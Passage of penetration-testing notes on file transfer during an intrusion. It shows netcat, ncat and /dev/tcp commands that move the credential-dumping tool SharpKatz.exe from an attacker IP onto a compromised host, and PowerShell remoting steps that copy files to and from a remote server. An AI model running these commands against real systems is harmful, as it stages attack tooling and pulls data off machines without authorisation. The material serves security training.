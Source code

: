 # Misc

### File Transfer with Netcat and Ncat

3. **Netcat - Attack Host - Sending File to Compromised machine**. The option `-q 0` gonna close connection after transferring.

```bash
# Using original netcat
victim$ nc -l -p 8000 > SharpKatz.exe
```

```bash
attacker$ nc -q 0 13.13.13.13 8000 < SharpKatz.exe
```

4. **Ncat - Attack Host - Sending File to Compromised machine**

```bash
# Using Ncat
victim$ ncat -l -p 8000 --recv-only > SharpKatz.exe
```

```bash
attacker$ ncat --send-only 13.13.13.13 8000 < SharpKatz.exe
```

5. **Sending File as Input to Netcat**

```bash
attacker$ sudo nc -l -p 443 -q 0 < SharpKatz.exe
```

```bash
victim$ nc 13.13.13.13 443 > SharpKatz.exe
```

6. **Sending File as Input to Ncat**

```bash
attacker$ sudo ncat -l -p 443 --send-only < SharpKatz.exe
```

```bash
victim$ ncat 13.13.13.13 443 --recv-only > SharpKatz.exe
```

8. **Sending File from Attacker machine to Compromised using /dev/tcp**

```bash
# Netcat option
attacker$ sudo nc -l -p 443 -q 0 < SharpKatz.exe
```

```bash
# Ncat option
attacker$ sudo ncat -l -p 443 --send-only < SharpKatz.exe
```

```bash
# Connecting to netcat using /dev/tcp
victim$ 
cat < /dev/tcp/13.13.13.13/443 > SharpKatz.exe
```

### PowerShell Session File Transfer

I know I used to show about PowerShell file transfers in Windows File Transfer section, but there are possibilities when no HTTP, HTTPS or SMB are available. So here we'll use `PowerShell Remoting` aka WinRM. Usually work on TCP/5985 port for HTTP and TCP/5986 port for HTTPS.

1. **Check TCP 5985 Port on DATABASE01**

```powershell
PS C:\carnifex17> Test-NetConnection -ComputerName DATABASE01 -Port 5985
```

2. **Create a PowerShell Remoting Session to DATABASE01**

```powershell
PS C:\Desktop> $Session = New-PSSession -ComputerName DATABASE01
```

3. **Copy samplefile.txt from our Localhost to the DATABASE01 Session**

```powershell
PS C:\Desktop> Copy-Item -Path C:\samplefile.txt -ToSession $Session -Destination C:\Users\Administrator\Desktop\
```

4. **Copy DATABASE.txt from DATABASE01 Session to our Localhost**

```powershell
PS C:\Desktop> Copy-Item -Path "C:\Users\Administrator\Desktop\DATABASE.txt" -Destination C:\ -FromSession $Session
```
